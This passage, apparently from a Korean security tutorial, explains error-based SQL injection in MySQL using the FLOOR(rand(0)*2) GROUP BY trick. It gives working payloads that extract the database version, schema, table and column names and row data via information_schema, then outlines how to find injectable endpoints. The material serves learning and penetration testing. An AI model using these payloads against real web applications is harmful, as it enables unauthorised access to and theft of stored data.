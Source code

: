 위 같은 오류를 이용하여 `concat()`함수를 이용해 "실행할-SQL-쿼리" (DB에서 추출하고자하는 정보의 SQL 쿼리)와 `FLOOR(rand(0*2))`를 결합한다. 그리고 이걸 x로 ALIAS 적용하면 쿼리는 다음과 같아진다.
```bash
SELECT concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x,COUNT(*) 
FROM some-table 
GROUP BY x

# 오류를 평가하고 결과를 나타내기 위해 서브 쿼리를 이용
SELECT 1
FROM (
	SELECT concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x,COUNT(*) 
	FROM some-table 
	GROUP BY x
     )a
)

# some-table은 3행 이상의 행을 가진 시스템 테이블인 information_schema. TABLES로 변경하고, 주석과 공백 문자 추가 -> 앞부분에 AND 연산자 사용
AND (SELECT 1 FROM(SELECT COUNT(*),concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 


# 데이터베이스 버전 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat(version(),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 

# 데이터베이스명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)-- 

# 데이터베이스명 추출(웹 애플리케이션과 통신 중인 데이터베이스)
AND extractvalue(rand(),concat(0x3a,database()))-- 

# 테이블명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='데이터베이스명' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)-- 

# 컬럼명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='데이터베이스명' AND TABLE_NAME='테이블명' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)-- 

# 데이터 추출
AND(SELECT 1 FROM(SELECT COUNT(*),concat((SELECT CONCAT_WS(0x3a,컬럼1,컬럼2,..., 컬럼N) FROM 데이터베이스명.테이블명 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 
```

# 테스트 방법
1. 데이터베이스와 통신하는 엔드포인트 식별
대상 웹 애플리케이션의 모든 기능을 사용해보고 데이터베이스와 통신하는 것으로 의심되는 모든 엔드포인트와 매개변수를 찾아 수집한다
만일 웹 애플리케이션 내에 다양한 사용자 권한이나 역할이 존재하고 서비스가 차등적으로 제공되나면 각 권한과 역할에 대한 모든 조합별로 사용자 계정을 생성해 웹 애플리케이션을 사용
공격 벡터느 GET 매개변수, POST body 매개변수, Cookie 등의 표준 요청 헤더나 커스텀 요청 헤더가 될 수 있음
